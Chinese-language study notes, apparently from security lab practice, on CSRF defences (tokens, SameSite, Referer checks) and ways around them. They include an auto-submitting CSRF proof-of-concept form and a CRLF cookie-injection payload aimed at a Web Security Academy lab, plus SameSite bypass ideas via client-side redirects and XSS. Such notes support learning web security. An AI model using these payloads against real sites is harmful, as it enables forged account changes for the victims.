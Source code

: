 同站：协议+二级域名相同
同源：协议+域名+端口号相同

**防范方法**



1. csrf token 加在header或是cookie或是表单中

#### Samesite

2. Samesite 策略 Samesite: Strict  Lax None (Secure)  

Strict 只允许同站的请求，不允许跨站

LAX 只允许通过如```<a><link>```的GET请求，而且该请求必须在顶部导航栏发起，此时附带相关的cookie

None 不做任何限制，只要请求网址是这个cookie的，就将其携带，<font color=red>当设置为None时，需要添加Secure参数</font>，保证该cookie只在HTTPS信道发送

![image-20230430102646756](/Users/fengyuanqiu/Library/Application Support/typora-user-images/image-20230430102646756.png)

3. HTTP Referer 检查，若是不同域则忽略请求

**绕过方式**

CSRF Token

1. csrf token设置没有和session绑定，用自己的token;网站没有对token存在性做异常处理；只对POST做token验证；
2. csrf token只和csrf cookie绑定(或是单纯的复制)，通过特殊的请求设置网站的csrf cookie，进而构造CSRF %0d%0a代表http的换行符 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a780013036a414c803e353c009300a0.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="22&#64;q444444444qd&#46;com" />
      <input type="hidden" name="csrf" value="xrwpE1KbgFcSW3fhCSuqnT8mdOMubf1I" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
其中，最后一部分用如下代码代替
<img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
前提：search的内容作为相应的set-cookie部分的内容

```

SameSite

Strict

1. CSRF的本质伪造请求，当由于Samesite的限制，无法直接伪造请求时，可以通过查找网站的客户端重定向功能绕过（不是由服务器发起的重定向，没有301，而是网站的其他页面，通过处理本地的参数，向服务器再次发起了一个请求，此时，可以通过修改本地参数，导向敏感页面并执行相应的c s r f攻击，没有从第三方网站访问，这样可以绕过strict发送GET请求）
2. 同样的，原理和1差不多，都是XSS+CSRF，XSS主要是为了由当前网页来触发请求，这个请求原本应该是由恶意网页发起的CSRF攻击，这样可以绕过strict限制。这里的XSS注入点在于同站下不同域的含有XSS漏洞的网站。
